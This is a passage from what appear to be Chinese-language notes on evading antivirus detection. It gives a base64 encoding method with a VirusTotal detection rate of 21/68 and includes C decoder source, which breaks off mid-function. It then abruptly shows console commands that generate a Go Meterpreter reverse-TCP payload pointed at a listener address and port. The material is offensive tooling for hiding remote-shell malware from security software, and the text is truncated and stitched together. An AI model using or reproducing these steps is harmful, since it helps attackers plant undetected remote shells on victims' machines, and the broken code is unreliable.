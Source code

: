 ![image-20220530145657512](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205301456618.png)

### 方法7 base64加密1（VT免杀率21/68）

需要两个文件，`base64.c`和`base64.h`

`base64.c`文件内容：

```c
/* Base64 encoder/decoder. Originally Apache file ap_base64.c
*/

#include <string.h>

#include "base64.h"

/* aaaack but it's fast and const should make it shared text page. */
static const unsigned char pr2six[256] =
{
    /* ASCII table */
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 62, 64, 64, 64, 63,
    52, 53, 54, 55, 56, 57, 58, 59, 60, 61, 64, 64, 64, 64, 64, 64,
    64,  0,  1,  2,  3,  4,  5,  6,  7,  8,  9, 10, 11, 12, 13, 14,
    15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 64, 64, 64, 64, 64,
    64, 26, 27, 28, 29, 30, 31, 32, 33, 34, 35, 36, 37, 38, 39, 40,
    41, 42, 43, 44, 45, 46, 47, 48, 49, 50, 51, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64
};

int Base64decode_len(const char *bufcoded)
{
    int nbytesdecoded;
    register const unsigned char *bufin;
    register int nprbytes;

    bufin = (const unsigned char *)bufcoded;
    while (pr2six[*(bufin++)] <= 63);

    nprbytes = (bufin - (const unsigned char *)bufcoded) - 1;
    nbytesdecoded = ((nprbytes + 3) / 4) * 3;

    return nbytesdecoded + 1;
}

int Base64decode(char *bufplain, const char *bufcoded)
{
    int nbytesdecoded;
    register const unsigned char *bufin;
    register unsigned char *bufout;
    register int nprbytes;

    bufin = (const unsigned char *)bufcoded;
    while (pr2six[*(bufin++)] <= 63);
    nprbytes = (bufin - (const unsigned char *)bufcoded) - 1;
    nbytesdecoded = ((nprbytes + 3) / 4) * 3;
```

[go/meterpreter/rev_tcp>>]: set lhost 192.168.174.128
[go/meterpreter/rev_tcp>>]: set lport 6666
[go/meterpreter/rev_tcp>>]: generate